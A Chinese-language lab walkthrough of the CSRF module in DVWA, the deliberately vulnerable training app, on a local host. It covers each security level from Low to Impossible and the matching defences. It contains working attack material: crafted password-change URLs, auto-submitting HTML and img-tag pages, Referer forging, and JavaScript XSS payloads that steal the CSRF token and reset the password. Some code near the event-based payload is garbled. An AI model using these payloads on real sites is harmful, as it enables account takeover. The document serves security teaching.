



# CSRF跨站脚本伪造
核心思想：
**攻击者诱导已经登录目标网站的用户访问恶意页面，利用用户浏览器自动携带 Cookie 的特性，伪造用户身份向目标网站发送请求。**

# Low等级实操:几乎没有任何防护
问题
1. 使用 GET 请求执行敏感操作；
2. 没有 CSRF Token；
3. 没有校验 Referer；
4. 只要用户 Cookie 有效，就可以修改密码。

当输入
```html
New password: 123456
Confirm new password: 123456
```
然后点击change
>观察URL:http://127.0.0.1/dvwa/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change
如果页面提示成功，说明密码被修改

## 构造恶意链接
构造如下URL
```HTML
http://127.0.0.1/dvwa/vulnerabilities/csrf/?password_new=hacked&password_conf=hacked&Change=Change
```
**当已登录DVWA的用户访问这个链接后，密码会被改成：hacked**

## 使用HTML超链接攻击
创建一个文件：
```html
csrf_low_link.html
```
内容
```javascript
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>CSRF Low Test</title>
</head>
<body>
    <h1>点击查看精彩内容</h1>
    <a href="http://127.0.0.1/dvwa/vulnerabilities/csrf/?password_new=hacked&password_conf=hacked&Change=Change">
        点击这里
    </a>
</body>
</html>
```
如果受害者已登录DVWA，然后点击是这个链接，密码就会被修改

## 使用img标签自动触发
创建一个文件
```html
csrf_low_img.html
```
内容
```javascript
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>CSRF Low IMG</title>
</head>
<body>
    <h1>正常页面</h1>
    
</body>
</html>
```
**只要受害者打开这个页面，浏览器就会自动请求 img src 中的地址,因为浏览器会自动带上 DVWA 的 Cookie，所以 DVWA 会认为是用户自己发起了修改密码请求。**

## 你需要知道
1. CSRF 的基本原理；
2. Cookie 自动携带机制；
3. GET 请求不应该用于敏感操作；
4. 修改密码、转账、绑定邮箱等敏感操作必须有 CSRF 防护；
5. 
```html
、<script>、<iframe>、<a> 都可能触发跨站请求；
```
6. 只验证用户是否登录并不能防 CSRF。

# Medium等级实操:增加了referer校验
常见逻辑
```html
if (strpos($_SERVER['HTTP_REFERER'], $_SERVER['SERVER_NAME']) !== false) {
    // 允许修改密码
}
```
**也就是说，服务器或检查请求头里面的referer是否包含当前主机名**
## 正常请求分析
用Burp抓包可以看到类似：
```html
GET /dvwa/vulnerabilities/csrf/?password_new=medium123&password_conf=medium123&Change=Change HTTP/1.1
Host: 127.0.0.1
Referer: http://127.0.0.1/dvwa/vulnerabilities/csrf/
Cookie: PHPSESSID=xxxx; security=medium
```
**服务器会检查Referer中是否出现127.0.0.1**
## 直接从恶意页面访问
如果你的恶意页面位置http://127.0.0.1:8000/csrf.html
>Referer可能是http://127.0.0.1:8000/csrf.html
,如果服务器只粗糙的检查referer中是否包含127.0.0.1，则可能绕过
## 使用Burp修改referer，仅用于实验理解
抓到请求后，修改referer
```html
Referer: http://127.0.0.1/dvwa/vulnerabilities/csrf/
```
>然后方形，如果服务器只以来referer，那么伪造referer后请求就可能成功
实操图:


## Medium等级知识点
1. Referer 防护不可靠；
2. Referer 可能被浏览器、省略策略、代理或插件影响；
3. Referer 可以在某些客户端场景中伪造；
4. 字符串包含式校验存在绕过风险；
5. 防 CSRF 不能只依赖 Referer；
6. 校验 Origin 通常比 Referer 更可靠，但也不能单独依赖；
7. 正确方案应该是 CSRF Token + SameSite Cookie + 敏感操作二次验证。
# High等级实操
### 漏洞特点：加入了CSRF Token
比如:
```html
<input type="hidden" name="user_token" value="xxxx">
```
请求变成:
```html
/dvwa/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change&user_token=xxxx
```
**服务器会验证这个user_token是否正确**

### 正常请求分析
进入CSRF页面，查看源码，可以查看类似内容：
```html
<input type='hidden' name='user_token' value='abcdef123456'>
```
提交修改密码时，请求类似：
```html
GET /dvwa/vulnerabilities/csrf/?password_new=high123&password_conf=high123&Change=Change&user_token=abcdef123456 HTTP/1.1
Host: 127.0.0.1
Cookie: PHPSESSID=xxxx; security=high
```
如果token正确，修改成功，如果token缺失或错误，修改失败
### 直接构造请求会失败
```html
http://127.0.0.1/dvwa/vulnerabilities/csrf/?password_new=hacked&password_conf=hacked&Change=Change
```
随便加一个token
```html
http://127.0.0.1/dvwa/vulnerabilities/csrf/?password_new=hacked&password_conf=hacked&Change=Change&user_token=123
```
也会失败
## High等级绕过常见思路
High 等级的核心问题是：
```html
如果攻击者能够通过其他漏洞获取页面中的 token，就可以组合利用 CSRF。
```
在 DVWA 中，High CSRF 通常要结合 XSS 获取 token，再自动提交修改密码请求。也就是说CSRF+XSS组合攻击
如果目标页面存在可利用的 XSS，恶意脚本可以：

1. 读取 CSRF 页面源码；
2. 提取 user_token；
3. 构造带 token 的修改密码请求；
4. 自动发送请求。
## 使用XSS获取Token的原理
1. 由于恶意脚本运行在DVWA同源环境下，所以它可以访问/dvwa/vulnerabilities/csrf/
2. 解析返回HTML中的:uesr_token
3. 在请求：/dvwa/vulnerabilities/csrf/?password_new=hacked&password_conf=hacked&Change=Change&user_token=提取到的token

## 示例JS逻辑：下面代码用语理解原理，不建议对真实网站使用
```html
<script>
fetch('/dvwa/vulnerabilities/csrf/')
  .then(response => response.text())
  .then(html => {
      let parser = new DOMParser();
      let doc = parser.parseFromString(html, 'text/html');
      let token = doc.querySelector('input[name="user_token"]').value;

      let url = '/dvwa/vulnerabilities/csrf/?password_new=highhacked&password_conf=highhacked&Change=Change&user_token=' + token;
    
      fetch(url);
  });
</script>
```
这段逻辑做了三件事
1. 请求 CSRF 页面；
2. 解析页面中的 user_token；
3. 携带 token 发起修改密码请求。

## 在DVWA中组合XSS测试
如果 XSS 模块和 CSRF 模块处于同一站点、同一 Cookie 环境，脚本就可以请求 CSRF 页面并读取 token,示例payload:
```html
<script>
fetch('/dvwa/vulnerabilities/csrf/')
.then(r => r.text())
.then(t => {
    let m = t.match(/name=['"]user_token['"] value=['"]([^'"]+)['"]/);
    if (m) {
        fetch('/dvwa/vulnerabilities/csrf/?password_new=highhacked&password_conf=highhacked&Change=Change&user_token=' + m[1]);
    }
});
</script>
```
```html
如果目标页面过滤<scrite>,可以尝试事件型触发，具体要看XSS模块的过滤规则
```javascript
r.text())
.then(t=>{
let m=t.match(/name=['\x22]user_token['\x22] value=['\x22]([^'\x22]+)['\x22]/);
if(m){fetch('/dvwa/vulnerabilities/csrf/?password_new=highhacked&password_conf=highhacked&Change=Change&user_token='+m[1]);}
})
">
```
实操图

8. High 等级知识点
你可以学到：

1. CSRF Token 的作用；
2. Token 应该与用户 Session 绑定；
3. Token 应该不可预测；
4. Token 应该放在表单或请求头中；
5. 仅有 Token 也不能抵御所有场景；
6. 如果存在 XSS，CSRF Token 可以被窃取或滥用；
7. XSS 通常可以绕过大多数 CSRF 防护；
8. 防御 CSRF 的同时必须防御 XSS；
9. 敏感操作应使用 POST，而不是 GET。

# Impossible等级分析
## 防护特点
Impossible 等级是 DVWA 中接近安全实现的版本。

通常会加入多种防护：

1. 验证当前密码；
2. 使用 Anti-CSRF Token；
3. Token 与 Session 绑定；
4. 敏感操作不完全依赖 Cookie；
5. 对输入进行更严格校验。
修改密码时可能需要输入：
1.  Current password
2. New password
3. Confirm new password
**也就是说，即使攻击者能诱导用户发起请求，如果不知道用户当前密码，也无法修改成功。**
## 正常修改流程
表单可能包含：
1. Current password
2. New password
3. Confirm new password
4. user_token
提交时服务器检查：
1. 当前密码是否正确；
2. 新密码和确认密码是否一致；
3. CSRF Token 是否正确；
4. 用户 Session 是否有效。
## 该等级为何安全
即便攻击者构造请求：
```html
password_new=hacked
password_conf=hacked
```
由于缺少:
```html
password_current
```
1. 或者不知道当前密码，攻击不能成功。
2. 如果攻击者尝试伪造 token，也会失败。
3. 如果攻击者无法读取用户当前密码，也无法完成修改。
## 该等级知识点
**你可以学到：**

1. 敏感操作应要求二次验证；
2. 修改密码必须验证旧密码；
3. CSRF Token 是必要但不是唯一防线；
4. 防御应该采用纵深防御；
5. 安全设计应考虑 XSS、会话劫持、点击劫持等组合攻击；
6. 服务端必须做最终验证，不能只依赖前端限制。

# 四个等级对比总结
| 安全等级 | 防护方式 | 是否容易被 CSRF | 主要学习点 |
|---|---|---|---|
| Low | 无防护 | 很容易 | CSRF 基础原理 |
| Medium | Referer 校验 | 可绕过 | Referer 不可靠 |
| High | CSRF Token | 单独较难，结合 XSS 可绕过 | Token 防护机制 |
| Impossible | Token + 当前密码验证 + 更严格逻辑 | 较安全 | 纵深防御 |
